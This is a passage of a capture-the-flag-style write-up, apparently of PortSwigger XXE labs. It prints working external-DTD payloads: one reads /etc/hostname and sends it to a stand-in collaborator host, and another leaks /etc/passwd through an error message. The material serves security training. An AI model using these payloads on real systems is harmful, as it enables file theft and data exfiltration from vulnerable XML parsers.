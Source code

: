 ## Lab 5: Blind XXE using malicious external DTD

To solve this lab, read `/etc/hostname`. This lab gives me an Exploit Server, as well as a Submit Feedback function.

The submit feedback function wasn't particularly interesting.

I was unable to read files using the method used in Lab 4. However, I was able to make the lab send a request to Burp Collaborator. Since I was given an Exploit Server, I can try to store a malicious DTD on it.

I want to extract the data from `/etc/hostname`, and then send that to Collaborator. I stored this file on the exploit server:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP/?x=%file;'>">
%eval;
%exfil;
```

`&#x25` represents a `%` in Unicode, and it is used to prevent syntax errors. After storing this on the exploit server, I used this payload to make the application retrieve it and process it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % test SYSTEM 'https://EXPLOIT/evil.dtd'> %test; ]> 
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

This would trigger a lookup to Collaborator:

![](../../.gitbook/assets/portswigger-xxe-writeup-image-3.png)

Submitting that value solves the lab.

## Lab 6: Error based blind XXE

To solve this lab, use an external DTD to trigger an error message that displays `/etc/passwd`.

The error can be triggered by trying to read a file that does not exist.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; fail SYSTEM 'file:///idontexist/%file;'>">
%eval;
%fail;
```
